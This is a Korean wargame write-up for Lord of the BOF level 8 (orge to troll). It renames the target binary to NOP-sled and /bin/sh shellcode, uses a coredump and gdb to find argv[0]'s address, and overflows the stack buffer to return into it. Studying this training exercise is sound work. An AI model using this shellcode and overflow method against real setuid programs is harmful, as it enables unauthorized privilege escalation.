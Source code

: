 ```yaml
---
title:  "[LOB] level 8: orge >> troll "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-22 14:22:32

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 8

**orge / timewalker**

troll.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147103921-2fea91ba-c9a8-454b-b602-d9fb1688bd6f.png)
argc의 값이 2여선 안됨 - 인자 2개를 못사용함  
argv[1]의 길이를 읽어서 그만큼 argv[1]를 초기화 - 다시 말하면 그냥 argv[1]을 초기화 한다는 거임  

인자 2개를 못사용하니까 argv[0] 아니면 argv[1] 인데  
argv[1]은 초기화를 당하니 argv[0]을 사용해야할듯..

argv[0]은 파일이름 이니까 파일 이름을 쉘코드로 하고 argv[0]의 주소를 리턴주소로..?

>rename troll \`python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"'` troll

![image](https://user-images.githubusercontent.com/69203345/147105251-78c37f91-d375-4cfa-98e2-b0b8b5cdff48.png)  
파일 이름이 변경되지 않는데 그 이유는  쉘코드에 있는 \x2f가 /로 읽혀서 그렇다 \x2f가 없는 쉘코드를 사용하자

>rename troll \`python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` troll

![image](https://user-images.githubusercontent.com/69203345/147105669-38694d3a-d044-4069-a89e-2c60b5a511be.png)  
보자마자 이게 맞나 부터 생각했다 

/tmp로 복사해서 coredump 일으킬거다
![image](https://user-images.githubusercontent.com/69203345/147106044-ae4b0673-7c54-4e5c-85e3-38d17909aab7.png)  

>./\`python -c 'print "\x90"\*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"D"*44+"\xff\xff\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/147106322-63e49a05-d966-45e5-8b85-63a86ba5a57e.png)  
coredump도 일으켰으니 파일을 읽어보자  

gdb로 core확인  
![image](https://user-images.githubusercontent.com/69203345/147106770-0573534a-4bcd-4b4d-8867-e4d2cbf3df2f.png)  
0xbffffb80 부터 argv[0]이 시작함을 알수있다
리턴주소로 0xbffffb80을 사용하면되겠다

>./\`python -c 'print "\x90"\*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"D"*44+"\x80\xfb\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/147107157-13e9e331-2e1d-4fab-9d7a-9b70689f28ac.png)